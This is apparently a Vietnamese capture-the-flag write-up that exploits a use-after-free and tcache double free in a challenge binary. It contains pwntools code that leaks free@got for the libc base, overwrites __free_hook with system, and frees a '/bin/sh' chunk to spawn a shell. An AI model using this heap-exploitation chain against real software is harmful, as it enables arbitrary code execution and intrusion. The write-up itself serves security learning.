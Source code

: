 **1. Tìm lỗi**

Sau khi pwninint thì thấy phiên bản libc là 2.2 -> tcache được bật và nó không gây ra lỗi khi Double Free

Dùng IDA dịch thì thấy hàm getFlag ở lựa chọn 1:

![getFlag.png](photo/getFlag.png)

![free.png](photo/free.png)

Tiếp tục đọc source thì thấy ở lựa chọn 6 và 7 đều free nhưng không loại bỏ con trỏ đến đoạn giải phóng -> Use after free

![var.png](photo/var.png)

Chương tình có 2 biến chứa con trỏ đến đoạn malloc(0x10). Với lỗi Use after free thì có thể in giá trị một đoạn được giải phóng và lạm dụng danh sách liên kết tcache bằng cách chỉnh sửa con trỏ chuyển tiếp

**2. Ý tưởng**

Với lựa chọn 1 thì sẽ in thông tin admin. Với lỗi Use After Free và Double Free chúng ta cần cho user và admin trỏ đến cùng 1 đoạn, sau đó ghi đè lên ptr với biến user thông qua địa chỉ getFlag

**3. Khai thác**

Đầu tiên viết 7 hàm cho 7 lựa chọn trong chương trình như sau:

```
def newAdmin():
    r.sendlineafter(b'Choice: ', b'1')

def newUser(name):
    r.sendlineafter(b'Choice: ', b'2')
    r.sendafter(b'What is your name: ', name)

def printAdmin():
    r.sendlineafter(b'Choice: ', b'3')
    
def editStudent(name):
    r.sendlineafter(b'Choice: ', b'4')
    r.sendafter(b'What is your name: ', name)
    
def printStudent():
    r.sendlineafter(b'Choice: ', b'5')
    return r.recvline()

def deleteAdmin():
    r.sendlineafter(b'Choice: ', b'6')


def deleteUser():
    r.sendlineafter(b'Choice: ', b'7')
```

Tiếp theo sẽ tận dụng danh sách liên kết tcache để làm cho admin và user cùng trỏ đến cùng 1 doạn

```
newUser(b'0'*8)
deleteUser()
newAdmin()
```

Việc bây giờ là lấy địa chỉ hàm getFlag đưa vào biến User và thực hiện lựa chọn printAdmin vì bây giờ admin và user cùng trỏ đến một giá trị

```
getFlag = 0x40084a
editStudent(p64(0) + p64(getFlag))
```

![fgetFlag.png](photo/fgetFlag.png)

![fake1.png](photo/fake1.png)

Ta thấy địa chỉ hàm getFlag đã nằm trong data của chunk và bây giờ chỉ cần sử dụng hàm in đã có sẵn để in ra

```
print(printAdmin())
```

**4. Lấy cờ**

![fake.png](photo/fake.png)

Ý tưởng này đã thất bại khi file flag.txt không phải là nơi chứa flag

**2.1 Ý tưởng thứ 2**

Tận dụng danh sách liên kết tcache bằng cách Double Free user sau đó Use after free để ghi đè con trỏ chuyển tiếp bằng free@got

```
newUser(b'AuDuc')
deleteUser()
deleteUser()
```

Có địa chỉ free@got như sau:

![free_got.png](photo/free_got.png)

Sau đó chúng ta malloc 2 khối admin (để thiết lập lại tcache) và user(để rò rỉ địa chỉ)

```
newAdmin()
newUser(b'A')
free_addr = printStudent().split(b'name is ')[1][1:-1]
```

![free1.png](photo/free1.png)

![free2.png](photo/free2.png)

Ta thấy địa chỉ leak ra thiếu byte x50 cuối nên sẽ thêm vào

```
free_addr = u64(b'\x50' + free_addr + b'\x00\x00')
```

Sau khi leak được địa chỉ của free thì bằng những câu lệnh sau sẽ leak được địa chỉ libc base:

```
libc.address = free_addr - libc.sym['free']
print('Libc base: ', hex(libc.address))
```

Kết quả được

![libc.png](photo/libc.png)

Tiếp theo sẽ chỉnh sửa free@got

```
editStudent(p64(libc.sym['free']))
```

Sau khi ghi đè con trỏ phía trước vào đoạn free@got và malloc2, tcache hiểu nhầm địa chỉ trước đó là free_leak là kích thước để sử dụng sau:

![bins.png](photo/bins.png)

Tiếp theo sẽ free admin địa chỉ bộ nhớ tcache là chính xác: ```deleteAdmin()```

![bins1.png](photo/bins1.png)

Nhưng ở đây địa chỉ bộ nhớ tcache chưa được chính xác nên tạo user và Double free

```
newUser(b'A'*8)
deleteUser()
deleteUser()
```

![bins2.png](photo/bins2.png)

Và ở đây địa chỉ tcache đã chính xác

Tiếp theo ghi đè lên forward poiter địa chỉ __free_hook: ```editStudent(p64(libc.sym['__free_hook']))```

Tiếp theo là ghi vào tcache địa chỉ system:

```
newUser(b'A'*8)
newUser(p64(libc.sym['system']))
```
Lưu ý: Free sẽ kiểm tra xem __free_hook có trống không nếu không thì thực hiện chức năng bên trong

Tạo thêm chunk với giá trị /bin/sh: ```newUser(b'/bin/sh\x00')```

Việc còn lại là free để thực hiện shell

**4.1 Lấy flag lần 2**

![flag.png](photo/flag.png)
